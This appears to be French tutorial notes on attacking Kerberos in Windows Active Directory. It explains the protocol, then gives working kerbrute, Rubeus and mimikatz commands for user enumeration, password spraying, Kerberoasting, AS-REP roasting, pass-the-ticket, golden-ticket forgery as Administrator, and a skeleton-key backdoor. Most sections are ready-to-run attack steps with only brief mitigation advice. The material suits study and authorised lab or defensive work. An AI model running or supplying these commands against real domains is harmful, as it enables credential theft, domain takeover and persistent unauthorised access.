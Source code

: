 ## 1) Le fonctionnement de Kerberos

Tout d'abord, Kerberos est le service d'authentification par défaut pour les domaines Microsoft Windows. Il a pour objectif d'être plus sécurisé que NTLM en utilisant le système ticket d'autorisation d'une 3e entité. De plus, l'algorithme de chiffrement y est renforcé.

Voici quelques termes à connaitre :

- **Ticket Granting Ticket (TGT)** : C'est un ticket d'authentification utilisé pour les requêtes des tickets de service provenant du TGS pour une ressource spécifique du domaine.
- **Ticket Granting Service (TGS)** : Ce ticket prend le TGT et le ticket dans une machine du domaine.
- **Key Distribution Center (KDC)** : Le KDC est un service qui accorde les TGT et les TGS qui proviennent de l'AS et du TGS.
- **Authentication Service (AS)** : Le service d'authentification détient les TGT qui seront utilisés par le TGS dans le domaine pour demander l'accès à d'autres machines et au TGS.
- **Service Principal Name (SPN)** : C'est un identifiant donné à un service pour associer ce service avec un compte d'un service de domaine.
- **KDC Long Term Secret Key (KDC LT Key)** : Cette clé est basé sur le compte service KRBTGT. Elle est utilisée pour chiffré le TGT et signé le PAC.
- **Client Long Term Secret Key (Client LT Key)** : Cette clé est basé sur le compte de l'ordinateur ou du service. Elle est utilisée pour vérifier le timestamp chiffré et chiffré la clé de session.
- **Service Long Term Secret Key (Service LT Key)** : Cette clé est basé sur le compte service. Elle est utilisée pour chiffré la portion Service du ticket de service et signé le PAC.
- **Privilege Attribute Certificate (PAC)** : Il garde toutes les informations pertinentes des utilisateurs, il est envoyé en même tempsque le TGT au KDC pour être signé par la KDC LT Key et soit le Client LT Key soit le Service LT Key.
- **Session Key** : Cette clé est utilisée pour accéder aux services.

Pour mieux comprendre l'ordre pour accéder à une ressource via Kerberos :

![Kerberos](https://i.imgur.com/VRr2B6w.png)

1. (AS-REQ) Le client envoie une requête au KDC pour avoir un TGT ou un ticket d'authentification
2. (AS-REP) Le KDC vérifie que le client existe et renvoie le TGT chiffré avec la clé de session
3. (TGS-REQ) Le client envoie le TGT chiffré au TGS avec le SPN du service que le client veut accéder
4. (TGS-RES) Le KDC vérifie le TGT de l'utilisateur et que celui-ci a la permission d'accéder au service, ensuite il envoie une clé de session valide pour le service
5. (AP-REQ) Le client envoie une requête au service et sa clé de session pour prouver son accès
6. (AP-REP) Le service lui autorise l'accès

## 2) Enumérer des utilisateurs valides au sein d'un AD

Pour ce faire, on va utiliser l'outil **[kerbrute](https://github.com/ropnop/kerbrute)** qui permet de faire cette action en abusant de la pre-authentification de Kerberos.

La commande a utilisé est la suivante :

```bash
kerbrute userenum --dc <Nom du domaine Controller> -d <Nom du domaine> <wordlist>
```

## 3) Récolter et brute-force/password-spraying les tickets

On utilsera pour ce faire, l'outil **[Rubeus](https://github.com/GhostPack/Rubeus)**. (le programme doit être sur la machine victime)

On peut récolter les différents tickets avec la commande suivante :

```powershell
Rubeus.exe harvest /interval:30
```

On a défini le mode de Rubeus sur harvest pour récolter les tickets à une intervalle de 30s.

Pour tester un mot de passe sur plusieurs machines à la fois, on va utilisé ceci :

```powershell
Rubeus.exe brute /password:Password1 /noticket
```

## 4) Kerberoasting

Cette attaque permet à un utilisateur d'envoyer une requête pour avoir un ticket de service pour tous les services avec un SPN enregistré et ensuite utilisé ce ticket pour cracker le mot de passe du service. Donc si le service a un SPN enregistré, il peut être Kerberoastable. Le succès de l'attaque dépend du niveau de sécurité du mot de passe.

Pour énumérer les compte Kerberoastable, on utilisera l'outil BloodHound ou Rubeus.

Pour ce faire avec Rubeus :

```powershell
Rubeus.exe kerberoast
```

Après avoir cracker le mot de passe du service, il y a plusieurs façon d'exfiltrer les données dépendant de si le service est dans un domain admin ou pas. 

Pour empêcher cette attaque, il faut :

- Avoir des mots de passes fort
- Ne pas créer de compte de service dans un domain admin

## 5) AS-REP Roasting

Cette attaque est très similaire à la précédente, elle va permettre d'avoir accès aux hash des comptes utilisateurs ayant la pre-authentification de Kerberos désactiver.

Pour ce faire avec Rubeus :

```powershell
Rubeus.exe asreproast
```

On crackera ensuite les hashs avec hashcat.

## 6) Pass the ticket

Cette attaque fonctionne en accèdant au TGT grâce à la mémoire LSASS (Local Security Authority Subsystem) de la machine. Le LSASS est un processus mémoire qui stocke les données sur un AD et peut stocker les tickets Kerberos avec ces données.

On utilisera l'outil **[mimikatz](https://github.com/ParrotSec/mimikatz)** pour ce faire :

```powershell
mimikatz.exe
```

```powershell
privilege::debug
```

Permet de savoir si l'on dispose des droits administrateurs pour le bon fonctionnement du script.

```powershell
sekurlsa::tickets /export
```

Permet d'exporter les tickets dans le répertoire courant.

```powershell
kerberos::ptt <ticket>
```

Cette commande permettra d'utiliser le ticket spécifier et donc de se faire passer pour la personne.

## 7) Golden/Silver Tickets

Tout d'abord, vous devez savoir la différence entre KRBTGT et TGT. Le KRBTGT est un compte de service pour le KDC, si l'on arrive a devenir le KRBTGT et que l'on crée un golden ticket, on se donne la possibilité de créer un ticket pour n'importe quelle service.

Comme l'étape précédente, on utilise mimikatz :

```powershell
lsadump::lsa /inject /name:krbtgt
```

Ensuite pour crée notre ticket et devenir Administrator :

```powershell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<sid> /krbtgt:<hash> /id:<id>
```

Ensuite pour accéder à une machine avec ce ticket :

```powershell
misc::cmd
```

Cela créera un nouvel invité de commande avec des priviléges d'administrateurs.

## 8) Skeleton Key

Pour maintenir l'accès à notre machine, on utilisera l'attaque suivante. Cette Skeleton Key abuse sur la façon que l'AS-REQ valide les timestamp chiffrés. Cette clé n'est valable qu'avec l'algorithme de chiffrement RC4.

Il suffit juste de faire la commande suivante dans mimikatz :

```powershell
misc::skeleton
```

ensuite voici divers exemples :

```powershell
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```

```powershell
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

mimikatz étant le mot de passe par défaut de la clé.